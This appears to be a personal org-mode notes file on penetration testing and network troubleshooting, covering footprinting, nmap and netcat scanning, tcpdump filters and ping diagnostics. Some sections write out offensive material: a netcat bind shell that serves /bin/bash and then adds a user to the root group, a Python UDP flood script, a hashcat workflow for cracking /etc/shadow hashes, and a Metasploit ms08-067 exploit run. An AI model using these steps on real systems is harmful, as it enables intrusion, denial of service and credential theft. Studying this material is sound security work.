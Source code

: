 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
* footprinting
** website footprinting
 - operating system used.
 - subdirectories and parameters
 - Filename, path, database field name, or query:You should analyze anything after the
   a  query that looks like a filename, path, database field name, or query carefully
   to check whether it offers opportunities for SQL injection
 - Scripting platform
 - Contact details and CMS details: The contact pages usually offer details such as names
   phone numbers, email addresses, and locations of admin or support people.

** view headers
 - Connection status and content-type
 - Accept-ranges
 - Last-Modified information
 - X-Powered-By information
 - Web server in use and its version

** examine cookies set by the server to determine the software
running and its behavior.

** Email footprinting
By using email tracking tools you can gather the following information about
the victim:

 - Geolocation
 - read duration
 - proxy detection
 - links : allows you to check whether the links sent to the recipient through email
   have been checked or not.
 - Operating System
 - Forward email : whether or not the email sent to you is forwarded to another person
   can be determined easily by using this tool.

* Kali linux prep
** install linux headers for kali

#+begin_src shell 
$ apt-cache search header | grep -i linux
#  look for the one ending in –kali-all-amd64
$ apt-get install linux-headers-4.4.0-kalli-all-amd64
#+end_src 

** install kali guest additions

#+begin_src shell 
$ cd /media/cdrom0
$ cp VBoxLinuxAdditions.run /root/Desktop
$ ./VBoxLinuxAdditions.run
#+end_src 

** use network managed mode

#+begin_src shell 
$ vim /etc/NetworkManager.conf
# change managed=false to managed=true
#+end_src 

** permit =Root= login for SSH

#+begin_src shell 
$ vim /etc/ssh/sshd_config
#  change line PermitRootLogin without-password
#  PermitRootLogin yes
#+end_src

** set ssh to start at every bood
#+begin_src shell
$ update-rc.d -f ssh enable 2 3 4 5
#+end_src

** disably password delay
#+begin_src
# at /etc/pam.d find pam_filedelay and change delay to 1
auth       optional   pam_faildelay.so  delay=3000000

# at /etc/pam.d find common-auth  and add nodelay like this
# could be system-auth
auth            sufficient      pam_unix.so try_first_pass nullok nodelay
#+end_src

* google search operators
|            |                                                                                                |
|------------+------------------------------------------------------------------------------------------------|
| Operator   | Description intitle Looks for the search terms in the title                                    |
| allintitle | Looks for the search terms only in the title and nowhere else in the document                  |
| inurl      | Looks through the URL (the address) for the search terms                                       |
| allinurl   | Similar to allintitle     looks only in the URL for the search terms                           |
| filetype   | You provide the filetype and search terms. All results have that filetype.                     |
| allintext  | The search will not look at the URL and just in the text.                                      |
| site       | Narrow your search to a particular site. You have to provide the site as well as search terms. |
| link       | Searches for links to pages                                                                    |
| inanchor   | This search will look in anchor tags only                                                      |
| numrange   | Searches for a number                                                                          |
| daterange  | Results will be within a range of dates            as specified                                |
| author     | Searches Google Groups for a particular author. This only works in Google Groups.              |
| group      | Looks for a group name. This only works in Google Groups.                                      |
| insubject  | Searches subject lines in posts. This only works in Google Groups.                             |
| msgid      | Searches within a group for a message ID.                                                      |

http://www.googleguide.com
* whois & DNS
** query
#+begin_src shell
$ whois apress.com
$ whois -h whois.apnic.net <host>
# Looking up all the whois records that are maintained by the
# folks from Yahoo!. The following command shows how you do this:
$ whois –i mnt-by YAHOO-MNT
# filter ip addresses
$ whois –i mnt-by YAHOO-MNT | grep inetnum
$ whois –i mnt-by YAHOO-MNT | grep inetnum | awk –F\: '{ print $2 }'
#+end_src 

** whois query query handler

| whois.nic.ir    |
| whois.apnic.net |
| whois.arin.net  |

** MX record

Every domain will have at least one MX record. Knowing the hostname from the MX
record will tell you which system you need to interact with if you want to
perform penetration testing against the organization's receiving mail server
using the simple mail transfer protocol (SMTP) .

#+begin_src shell
# MX records
$ dig Mx apress.com
#using nslookup
$ nslookup
> set type=mx
> apress.com
#+end_src

** reverse DNS lookup
#+begin_src shell 
$ dig -x [IP address]
#+end_src 

* port scan 

#+begin_src shell 
# -p- scann all 65536 ports
$ sudo nmap -sS -p- 172.30.42.1
# udp port scan
$ sudo namp -sU
# operating system scan
$ sudo nmap -sS -O 172.30.42.1
# scan one port 
$ sudo nmap -sV -p 22,53 <ip>
# TCP full connection scan
$ nmap -sT -vvv -p 80 192.168.195.0/24
# SYN scan
$ nmap -sS -vvv -p 80 192.168.195.0/24
# ACK scan
$ nmap -sA -vvv -p80 192.168.195.0/24
# UDP scan
$ nmap -sU -vvv -p161 192.168.195.0/24
# combined UDP and TCP scan
$ nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24
# service detection
$ nmap -sS -vvv -Pn -sV<targetIP>
#+end_src 

** scanning default gateways
#+begin_src shell
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1
received/ {print $2}'; done
#+end_src

* banner grabbing
use telnet for TCP and nc for UPD connections.

#+begin_src shell 
$ telnet <host> <port>
$ nc -u <host> <port>
#+end_src

* host discovery with =arping=
arping uses ARP requests and replies instead of ICMP packets.
#+begin_src shell 
$ arping [ip address]
# I've used the MAC address, but the IP address could also be used.
$ arping -v -c3 00:10:7b:66:f7:62
#+end_src 

* netcat
** port scan using =netcat= 

 #+begin_src shell 
 $ netcat -z -v domain.com 1-1000
 #ou can then use the -n flag to specify that you do not need to resolve the IP address using DNS:
 $ netcat -z -n -v 111.111.111.111 1-1000
 $ netcat -z -n -v 111.111.111.111 1-1000 2>&1 | grep succeeded
 # to randomized port scanning use -r switch
 $ nc –v –r –w 1 192.168.0.10 –z 1-1000
 # scanning a range of devices
 $ for i in {10..12}; do nc –vv –n –w 1 192.168.0.$i 21-25 –z; done
 #+end_src

** communicate through =netcat=

 On one machine, you can tell netcat to listen to a specific port for
 connections. We can do this by providing the -l parameter and choosing a port:

 #+begin_src shell 
 netcat -l 4444
 #+end_src

 This will tell netcat to listen for TCP connections on port 4444

 On a second server, we can connect to the first machine on the port number we
 choose. We do this the same way we've been establishing connections previously:

 #+begin_src shell 
 netcat domain.com 4444
 #+end_src 

 It will look as if nothing has happened. However, you can now send messages on
 either side of the connection and they will be seen on either end.
** =netcat= chat interface

 #+begin_src shell 
 $ nc -l -p 4444         # host ip 192.168.1.102
 $ nc 192.168.1.102 4444
 #+end_src 

** transfering data with =netcat=

 #+begin_src shell 
 # server +++ -w 30 wait for 30 seconds 
 $ nc –v –w 30 –p 31337 –l < secret.txt
 # client
 $ nc –v –w 2 192.168.0.10 31337 > secret.txt
 #+end_src 

** banner grabbing

 #+begin_src shell 
 $ nc 192.168.1.1 80
 #+end_src 

** Linux remote shell 

 to prepare the listener we will type the following command into the command
 line:

 #+begin_src shell 
 $ sudo nc –lp 31337 –e /bin/bash
 #Connecting to the target
 $ nc 192.168.0.11 31337
 # Adding a local user and placing into the root group
 $ useradd –g root bob
 #+end_src

** send receive syslog
#+begin_src shell
# How to send log message to remote server?
$ nc -w0 -u 192.168.1.1 514 <<< "logging from remote"
# listen for messages
$ nc -l -u 512
#+end_src 

* sample python flood scriptf
  
#+begin_src python
import socket
import random

sock=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes=random._urandom(1024)
ip=raw_input('Target IP:')
port=input('Port:')
sent=0

while 1:
	sock.sendto(bytes,(ip,port))
	print "Sent %s amount of packets to %s at port %s: " % (sent,ip, port)
	sent = sent + 1
#+end_src 

* Cracking Linux Password Hashes with Hashcat 
  
** Getting Hashcat 2.00

Hashcat updated to 3.00 and it won't run in a virtual machine anymore. The simplest solution is to use the old version.
In a Terminal window, execute these commands:
#+begin_src shell
cd
mkdir hash
cd hash
wget https://hashcat.net/files_legacy/hashcat-2.00.7z
7z e hashcat-2.00.7z
./hashcat-cli32.bin -V
#+end_src 

#+begin_src shell
# get the hash for a username
$ cat /etc/shadow

# Finding the salt value
# The $6$ value indicates a type 6 password hash (SHA-512).
# The characters after $6$, up to the next $,  are the SALT.
$ cat /etc/show
root:$6$QYVo1xui$JS7zZtJ857Ti5nKYjTAcVUKqe.87yZvUXgehw2irI5k.0NzhI8PLkga8pz3uR7b8V.lF9qpxZtACqIBNKM.yB0:17235:0:99999:7:::

# Hash algorithm?
# the hash algorithm is defined in the file /etc/login.defs.
$ grep -A 18 ENCRYPT_METHOD /etc/login.defs

# Making a Hash File
# add the hashed password to a file
# and remove the last part for the above hash value delete everything after the yB0
# and the username 

# make a wordlist
$ curl http://www.scovetta.com/download/500_passwords.txt > 500_passwords.txt
head 500_passwords.txt

# Cracking the Hash
$ ./hashcat-cli32.bin -m 1800 -a 0 -o found1.txt --remove crack1.hash 500_passwords.txt
$ cat found1.txt

# Unix type 6 password hashes (-m 1800)
# Using a dictionary attack (-a 0)
# Putting output in the file found1.txt
# Removing each hash as it is found
# Getting hashes from crack1.hash
# Using the dictionary 500_passwords.txt
#+end_src 

https://samsclass.info/123/proj10/p12-hashcat.htm

* metasploit
** init
   
#+begin_src shell 
$ service postgresql start
$ service metasploit start
$ msfconsole
msf > search ms08-067
msf > info exploit/windows/smb/ms08_067_netapi
msf > use windows/smb/ms08_067_netapi
msf > show options
# setting RHOST
msf > set RHOST 192.168.20.10
msf > exploit
#+end_src

* network
** netstat
#+begin_src shell

# routing table
$ netstat -rn
#+end_src

** lsof

#+begin_src shell
# internet connections
# unlike netstat lsof will not report connections that do not have open files.
$ lsof -i

# open files by process name
$ lsof -cemacs24

#open files by pid
$ lsof -p `pidof emacs24`

# specify and address (lsof)
# only files related to the address will be showed.
$ lsof -i@sloan.lander.edu


#+end_src

** ARP
If some machines on your network are reachable but others aren't, or
connectivity comes and goes, ARP problems may be the cause.

#+begin_src shell
# show arp cache table
$ arp -a
#+end_src

** traceroute
#+begin_src shell
# use -n to disable name resolution
$ traceroute -n 

#+end_src

** iperf

#+begin_src shell
# starting server
$ iperf -s -p3000

#client
$ iperf -c205.153.60.236 -p3000
#+end_src

** tcpdump
*** intro
#+begin_src shell
# capture 100 packets and terminate
$ tcpdump -c100

# dump traffic of specific interface
$ tcpdump -i eth0

# disable name resolution
$ tcpdump -n

#address filtering
#This command captures all traffic to and from the host with the IP address 205.153.63.30.
$ tcpdump host 205.153.63.30

# Here is an example that uses the Ethernet address of a computer to select traffic
$ tcpdump ether host 0:10:5a:e3:37:c

# a filter that collects traffic sent to the host at 205.153.63.30 but not from i
$ tcpdump dst 205.153.63.30

# capture to packets coming from or going to the 205.153.60.0 network
$ tcpdump net 205.153.60

#The following command does the same thing:
$ tcpdump net 205.153.60.0 mask 255.255.255.0

#restricts the traffic captured to IP traffic
# IP traffic will include TCP traffic, UDP traffic, and so on
$ tcpdump ip

#To capture just TCP traffic, you would use:
# Recognized keywords include ip, igmp, tcp, udp, and icmp.
$ tcpdump tcp
#capture more than one protocol
$ tcpdump -pi eth0  tcp or udp or icmp

#capture specific port
$ tcpdump -pi eth0 port 110

# Capture several ports:
$ tcpdump -pi eth0 port 25 or port 80 or port 110

#Capture a port range:
$ tcpdump -pi eth0 portrange 3000-4000

# Watch traffic leaving a port:
$ tcpdump -pi eth0 src port 110

#Watch traffic entering a port:
$ tcpdump -pi eth0 dst port 110

#Look for packets smaller than the specified size:
$ tcpdump -pi eth0 less 512

#Look for packets larger than the specified size:
$ tcpdump -pi eth0 greater 512

#Watch SSH connections from certain hosts:
$ tcpdump -pi eth0 src host uberpc or stinkpad and dst port 22

#Watch for traffic leaving one network and entering two other networks:
$ tcpdump -pi eth0 src net 192.168.1.0/16 and dst net 10.0.0.0/8 or 172.16.0.0/16

#There are many transport-level services that do not have recognized keywords. In this case, you can
#use the keywords proto or ip proto followed by either the name of the protocol found in the
#/etc/protocols file or the corresponding protocol number. For example, either of the following will
#look for OSPF packets:
$ tcpdump ip proto ospf

#For higher-level services, services built on top of the underlying protocols, you must use the keyword
#port.
#the keyword domain is resolved by looking in /etc/services.
$ tcpdump port domain
$ tcpdump port 53

#This will capture DNS name lookups using UDP but not DNS zone transfers using TCP.
$ tcpdump udp port domain

#This command collects packets longer than 200 bytes.
$ tcpdump greater 200

# proto[expr:size] is the general syntax.
# proto indicates which header to look into -ip;tcp & ...
# expr gives an offset into the header indexed from 0

# looks into the IP header at the tenth byte, the protocol field, for a value of 6.
$ tcpdump "ip[9] = 6"     #the same as $tcpdump tcp

#This will match multicast and broadcast packets.
$ tcpdump 'ether[0] & 1 != 0'

#This filter skips the first 13 bytes in the TCP header, extracting the flag byte. The mask 0x03 selects
#the first and second bits, which are the FIN and SYN bits.
$ tcpdump "tcp[13] & 0x03 != 0"

# compound filters
$ tcpdump host 205.153.63.30 and ip
#all traffic to the host except IP traffic
$ tcpdump host 205.153.63.30 and not ip

#captures all UDP or ARP traffic to or from lxn1.
$ tcpdump "host lnx1 and (udp or arp)"

#suppose you are interested in capturing traffic on the host lnx1, you are logged onto the
#host bsd1, and you are using telnet to connect from bsd1 to lnx1. To capture all the traffic at lnx1,
#excluding the Telnet traffic between bsd1 and lnx1, the following command will probably work
#adequately in most cases:
lnx1# tcpdump -n "not (tcp port telnet and host lnx1 and host bsd1)"


#The -X switch reads the data payload, but the default is to only read 68 bytes, 
#so -s0 displays the whole data payload, as this example from an IRC conversation shows:
$ tcpdump -X -s0 -pi eth0

# see the live capture and store it in a file.
# tcpdump -pXi eth0 -s0 host stinkpad -l | tee tcpdumpfile
#This is a good way to catch infected hosts that are sending out spam because nobody should 
#be sending anything from port 25 except your official mail servers:
#The -n switch turns off name resolution.
$ tcpdump -pni eth0 dst port 25 and not src host mailserver1

#you might want to use the -c switch to limit the number of packets captured:

$ tcpdump -c 1000 -pXi eth0 -w tcpdumpfile -s0
#+end_src

*** capturing TCP flags 
#+begin_src shell
#Capture all SYN packets:
$ tcpdump 'tcp[13] & 2 != 0'

#Capture all ACK packets:
$ tcpdump 'tcp[13] & 16 != 0'

#Capture all SYN-ACK packets:
$ tcpdump 'tcp[13] = 18'

#Capture all FIN packets:
$ tcpdump 'tcp[13] & 1 != 0'

#Capture all URG packets:
$ tcpdump 'tcp[13] & 32 != 0'

#Capture all PSH packets:
$ tcpdump 'tcp[13] & 8 != 0'

#Capture all RST packets:
$ tcpdump 'tcp[13] & 4 != 0'
#+end_src

* smurf attack

In a Smurf Attack, ICMP ECHO_REQUEST packets are sent to the broadcast address
of a network. Depending on how hosts are configured on the network, some may
attempt to reply to the ECHO_REQUEST.

* network troubleshooting

** Testing Connectivity with ping Problem
*** check network interface is up and running
#+begin_src shell 
$ ping localhost
#+end_src
*** confirm local networking is working properly
**** intro
#+begin_src shell
$ ping -c10 uberpc
#+end_src
The output from that simple command gives you several useful pieces of
information, including that name resolution is working and you have a good,
clean, fast connection.
**** check hostname

#+begin_src shell
$ ping -c10 uberpc
#ping: unknown host uberpc
#+end_src 

This means you entered the wrong hostname, DNS is broken, routing is goofed up,
or the remote host is not connected to the network. So, your next step is to
ping the IP address:

#+begin_src shell
$ ping -c10 192.168.1.76
PING 192.168.1.76 (192.168.1.76) 56(84) bytes of data.
From 192.168.1.10 icmp_seq=1 Destination Host Unreachable
[...]
From 192.168.1.10 icmp_seq=10 Destination Host Unreachable

--- 192.168.1.76 ping statistics ---
10 packets transmitted, 0 received, +9 errors, 100% packet loss, time 9011ms
, pipe 3
#+end_src 

This shows that you entered the wrong IP address or the host is down, but you
got as far as a router on the host's network. You know this because the router
sent you the "Destination Host Unreachable" message.

If pingingr the IP address had succeeded, then that would point to a DNS problem.
**** check connection to network
This is what it looks like when your own PC is not connected to the network:

#+begin_src shell
$ ping -c10 192.168.1.76
connect: Network is unreachable
#+end_src

**** check connection to remote network
This is what you see when the whole remote network is unreachable:

#+begin_src shell
$ ping -c10 alrac.net
PING alrac.net(11.22.33.44) 56(84) bytes of data.
--- alrac.net ping statistics ---
10 packets transmitted, 0 received, 100% packet loss, time 10007ms
#+end_src

** profiling
*** ping whole subnet
**** with Fping
FPing pings all the addresses in a range in sequence. This example pings a
subnet once, reports which hosts are alive, queries DNS for the hostnames, and
prints a summary:

#+begin_src 
	$ fping -c1 -sdg 192.168.1.0/24
	xena.alrac.net    : [0], 84 bytes, 0.04 ms (0.04 avg, 0% loss)
	pyramid.alrac.net : [0], 84 bytes, 0.45 ms (0.45 avg, 0% loss)
	uberpc.alrac.net  : [0], 84 bytes, 0.11 ms (0.11 avg, 0% loss)
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.2
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.3
	ICMP Host Unreachable from 192.168.1.10 for ICMP Echo sent to 192.168.1.4
	[...]

	192.168.1.9       :  xmt/rcv/%loss = 1/0/100%
	xena.alrac.net    :  xmt/rcv/%loss = 1/1/0%, min/avg/max = 0.04/0.04/0.04
	192.168.1.11      :  xmt/rcv/%loss = 1/0/100%
	[...]
	     128 targets
	       3 alive
	     126 unreachable
	       0 unknown addresses

	       0 timeouts (waiting for response)
	     127 ICMP Echos sent
	       3 ICMP Echo Replies received
	     102 other ICMP received

	 0.04 ms (min round trip time)
	 1.02 ms (avg round trip time)
	 2.58 ms (max round trip time)
	        6.753 sec (elapsed real time)

# use this to show up hosts only
$ fping -c1 -sdg 192.168.1.0/25 2>&1 | egrep -v "ICMP|xmt"
#+end_src

**** with nmap

If all you want to do is to discover all the up hosts on your network, Nmap is
faster and less verbose:
#+begin_src shell
	# nmap -sP 192.168.1.0/24
	Starting Nmap 4.20 ( http://insecure.org ) at 2007-06-08 15:53 PDT
	Host xena.alrac.net (192.168.1.10) appears to be up.
	Host pyramid.alrac.net (192.168.1.50) appears to be up.
	MAC Address: 00:0D:B9:05:25:B4 (PC Engines GmbH)
	Host uberpc.alrac.net (192.168.1.76) appears to be up.
	MAC Address: 00:14:2A:54:67:D6 (Elitegroup Computer System Co.)
	Nmap finished: 256 IP addresses (3 hosts up) scanned in 4.879 seconds
#+end_src

** Finding Duplicate IP Addresses with arping
Use arping, like this:
#+begin_src 
	$ arping -D 192.168.1.76
	ARPING 192.168.1.76 from 0.0.0.0 eth0
	Unicast reply from 192.168.1.76 [00:14:2A:54:67:D6] for 192.168.1.76 [00:14:2A:54:67:
	D6] 0.605ms
	Sent 1 probes (1 broadcast(s))
	Received 1 response(s)
#+end_src 

Received 1 response(s) means that this address is already in use, and arping
even gives you the MAC address. You may also test with a hostname:

#+begin_src 
	$ arping -D uberpc
	ARPING 192.168.1.76 from 0.0.0.0 eth0
	Unicast reply from 192.168.1.76 [00:14:2A:54:67:D6] for 192.168.1.76 [00:14:2A:54:67:
	D6] 0.590ms
	Sent 1 probes (1 broadcast(s))
	Received 1 response(s)
#+end_src

** Testing HTTP Throughput and Latency with httping

#+begin_src shell
# head request
$ httping -c4 -g http://www.oreilly.com
# get request
$ httping -c4 -Gg http://www.oreilly.com

# The -r switch tells httping to resolve the hostname only once, to remove DNS
# latency from its measurements:

$ httping -c4 -Grg http://www.oreilly.com

# You can test SSL-enabled sites with the -l switch:

$ httping -c4 -lGg https://www.fictionalsslsite.org

# To specify an alternate port, append it to the URL:

$ httping -c4 -Gg http://www.fictionalsslsite.org:8080

# httping will report the roundtrip time with the -b switch in kilobytes per second (not kilobits):

$ httping -c4 -Gbg http://www.fictionalsslsite.org
PING www.fictionalsslsite.org:80 (http://www.fictionalsslsite.org):
connected to www.fictionalsslsite.org:80, seq=0 time=2553.96 ms 43KB/s

# Use the -s switch to display return codes. Put it all together, and this is what you get:

$ httping -c4 -Gsbrg http://www.oreilly.com
PING www.oreilly.com:80 (http://www.oreilly.com):
  75KB/sed to www.oreilly.com:80, seq=0 time=1567.91 ms 200 OK
  72KB/sed to www.oreilly.com:80, seq=1 time=1618.20 ms 200 OK
  18KB/sed to www.oreilly.com:80, seq=2 time=5869.12 ms 200 OK
  58KB/sed to www.oreilly.com:80, seq=3 time=1979.43 ms 200 OK
--- http://www.oreilly.com ping statistics ---
4 connects, 4 ok, 0.00% failed
round-trip min/avg/max = 1567.9/2758.7/5869.1 ms
Transfer speed: min/avg/max = 18/56/75 KB

# You can test a local server by specifying the hostname and port instead of the URL:
$ httping -c4 -h xena -p 80

#+end_src

** Measuring Throughput, Jitter, and Packet Loss with iperf
 
* useful resources
http://www.iana.org/assignments/icmp-parameters/icmp-parameters.xhtml
http://oss.oetiker.ch/smokeping-demo
https://www.vanheusden.com/httping/
https://www.vanheusden.com/Linux/index.php
* temp
If some machines on your network are reachable but others aren't, or connectivity comes and goes,
ARP problems may be the cause.

* useful resources
http://ftp.ntua.gr/mirror/technotronic/
/media/moh/59920B8A5B5D077A/mybase/reilly/(O'Reilly System Administration) Joseph D Sloan-Network Troubleshooting Tools-O'Reilly Media (2001).pdf
